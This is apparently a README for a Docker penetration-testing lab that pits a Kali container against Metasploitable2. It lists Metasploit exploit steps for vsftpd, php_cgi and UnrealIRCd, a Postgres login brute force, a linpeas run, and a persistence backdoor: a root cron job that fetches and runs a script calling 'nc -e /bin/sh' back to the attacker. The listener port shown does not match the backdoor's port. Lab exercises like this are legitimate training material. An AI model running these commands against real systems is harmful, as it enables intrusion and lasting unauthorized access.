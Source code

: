 
## Setup 

```bash
make up
make ps
```

```bash
make logs container=meta2
make logs container=kali 
```

```bash
make access container=meta2
make access container=kali
```

In each container, run:

```bash
ifconfig # you should see 172.20.0.3 for the attacker and 172.20.0.2 for the victim 
```

From kali, run:

```bash
nmap -F 172.20.0.2
```

## Penetration

### Privilege Escalation

From kali:

```bash
nmap -sV -p 21 172.20.0.2
```

```bash
msfconsole
search vsftpd
#   1  exploit/unix/ftp/vsftpd_234_backdoor
use 1
set rhosts 172.20.0.2
set rport 21
exploit
```

Now to check previliges, directly type:

```bash
whoami #root
```

### Password brute force
From kali:
```bash
msfconsole
search postgres
#   9   auxiliary/scanner/postgres/postgres_login
use 9
set rhosts 172.20.0.2
set STOP_ON_SUCCESS true
run
```

## Stop the containers

```bash
make down
```


## Demo
From kali:

We will run the script by exploiting a php vulnerability but from a non-privileged user
```bash
msfconsole
search php_cgi
use 0
set rhosts 172.20.0.2
exploit 

# we get a meterpreter session
upload linpeas_linux_amd64 . # from here, we upload the linpeas script to the victim
shell # we open a shell in victim
ls # check file was uploaded successfully
chmod 777 linpeas_linux_amd64
./linpeas_linux_amd64 -a > out.txt
exit
```
From meterpreter:
```bash
download out.txt
bg # Go back to msfconsole
```

From kali terminal:
```bash
less -r out.txt # Open linpeas file, search for /irc in the file
```

Go back to the session:
```bash
sessions -i* # list sessions
sessions -i 1 # go back to the first session
```


From msfconsole:
```bash
search unrealirc
use 0
set RHOSTS 172.20.0.2
set LHOST 172.20.0.3
set payload cmd/unix/reverse
exploit
# this creates a shell
whoami # root
shell
```

From root shell:
```bash
# Leaving a backdoor
echo '* * * * * root cd /tmp; wget 172.20.0.3/backdoor -O backdoor && chmod +x backdoor && ./backdoor' > /etc/cron.d/backdoor
```

From another kali terminal:
```bash
# write a backdoor script
echo 'nc -e /bin/sh 172.20.0.3 4499' > backdoor

# serve script using http server
python3 -m http.server 80

```

From another kali terminal:
```bash
nc -nlvp 499
# wait
```

Go back to the session:
```bash
sessions -i* # list sessions
sessions -i 1 # go back to the first session
```
